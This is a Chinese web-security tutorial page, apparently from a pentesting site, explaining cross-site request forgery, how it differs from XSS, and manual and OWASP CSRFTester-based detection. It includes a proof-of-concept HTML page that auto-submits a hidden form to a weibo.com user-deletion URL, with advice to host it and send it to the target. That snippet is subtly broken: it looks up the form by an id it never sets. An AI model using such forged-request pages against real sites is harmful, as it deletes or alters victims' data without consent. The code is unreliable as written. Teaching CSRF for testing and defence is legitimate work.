 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)CSRF
>小贱提示： 跨站请求伪造

## ![](../img/github5.png)CSRF原理
举一个简单的例子，例如：
用户A在自己的博客站点中写了一篇文章C，用户B在回复中贴了一张图，在贴图的URL中写入删除文章C的链接,当A看见这张图片的时候，文章C便被不知不觉间删除了。这就是CSRF攻击了。

与XSS的区别
XSS：
```
攻击者发现XSS漏洞——构造代码——发送给受害人——受害人打开——攻击者获取受害人的cookie——完成攻击
```
CSRF：
```
攻击者发现CSRF漏洞——构造代码——发送给受害人——受害人打开——受害人执行代码——完成攻击
```

## ![](../img/github6.png)CSRF检测

>小贱提示：有token或g_tk的话直接放弃，不管用

#### 手工检测
1. 找敏感功能：如修改密码，转账，发表留言，转发，收听，关注等
2. 拦截HTTP请求：确定敏感操作之后，使用这项“功能”拦截HTTP请求
  举例：
  ```
  删除用户操作的url为：http://www.weibo.com/deluser.action?id=1024
  通过id参数来删除指定id的用户
  ```
3. 编写html网页放到自己网站上，并把网址发给目标
  ```
    <html>
    	<body>
    		<form name="myform" action="http://www.weibo.com/deluser.action" method="GET">
    			<input type="hidden" name="id" value="5"/>
    		</form>
    		<script>
    			var myform=document.getElementById("myform");
    			myform.submit();
    		</script>
    	</body>
    </html>
  ```

#### 半自动检测（OWASP-CSRFTester-1.0）
步骤1：
```
双击run.bat运行
浏览器设置http代理为127.0.0.1：8008
```
步骤2：
```
使用合法账户访问网站后，点击Start Recording，使用一项网站的“功能”，如新增用户，转发，关注等
csrf会将所有请求都记录下来
```
步骤3：通过CSRF修改并伪造请求
```
CSRFTest将所有的页面表单都抓取下来了，等到抓取到了我们要做测试的页面时，就可以点击Stop Recording ，停止抓取URL，并开始修改相应的表单进行测试
```
步骤4：
```
点Generate HTML
```
__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
